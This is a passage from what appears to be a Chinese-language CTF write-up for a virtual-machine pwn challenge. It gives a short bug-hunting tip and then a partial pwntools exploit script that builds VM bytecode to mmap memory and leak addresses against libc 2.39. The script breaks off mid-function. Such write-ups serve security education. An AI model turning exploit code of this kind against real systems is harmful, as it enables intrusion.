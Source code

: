 感觉虚拟机题找洞有个小规律，可以多关注一下**和 default 虚拟机（其他题目遇到的虚拟机功能的交集 doge）不一样的地方**，就像是新增的功能啥的，这种更容易出 bug    

### exp
```py
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
libc = ELF("./libc-2.39.so")
buf1 = b""
buf2 = "\x01"
buf3 = []

def assign_type(ty, cnt):
    global buf1, buf2, buf3
    if ty == 0: # stack vm
        if len(buf3) <= cnt//8:
            for i in range(cnt//8 + 1 - len(buf3)):
                buf3.append(0)
    else: # register vm
        if len(buf3) <= cnt//8:
            for i in range(cnt//8 + 1 - len(buf3)):
                buf3.append(0)
    buf3[cnt//8] |= (ty << (cnt % 8)) & 0xff

# 初始 privilege 应该是对的 我们先在栈式虚拟机上 mmap 一次，然后再看看能不能写入
def push_int(cnt, imm):
    global buf1
    assign_type(0, cnt)
    buf1 += b"\x30" + p32(imm)

def push_byte(cnt, imm):
    global buf1
    assign_type(0, cnt)
    buf1 += b"\x10" + p8(imm) + b"\x00\x00\x00"

def stack_mmap(cnt, addr):
    global buf1
    assign_type(0, cnt + 10)    
    push_int(cnt + 1, addr)
    push_byte(cnt, 6)
    buf1 += b"\xa0"+p32(0)
    
def reg_sub_imm(cnt, reg, imm):
    global buf1, buf2
    # *(_DWORD *)(a1 + 51) 处整一个 byte，高位和低位是 dst 和 src，然后 src 里面塞 imm
    assign_type(1, cnt)
    buf1 += b"\x21" + p8(0x40) + p32(imm)
    assign_type(1, cnt + 6)
    byte_val = 4 + reg*16
    buf1 += b"\x30" + p8(byte_val)

def get_addrs(cnt):
    global buf1, buf2
    # call stdin read and store multiple times
    # *(_DWORD *)(a1 + 59) set to 1 *(_DWORD *)(a1 + 63) set to 0x2000 *(_DWORD *)(a1 + 67) set to 0xf0
    # then let instr_byte be 1 for 8 times
    assign_type(1, cnt)
    buf1 += b"\x21" + p8(0x10) + p32(1)
    assign_type(1, cnt + 6)
    buf1 += b"\x21" + p8(0x20) + p32(0x2000)
    assign_type(1, cnt + 12)
    buf1 += b"\x21" + p8(0x30) + p32(0xf0)
    for i in range(2):
```
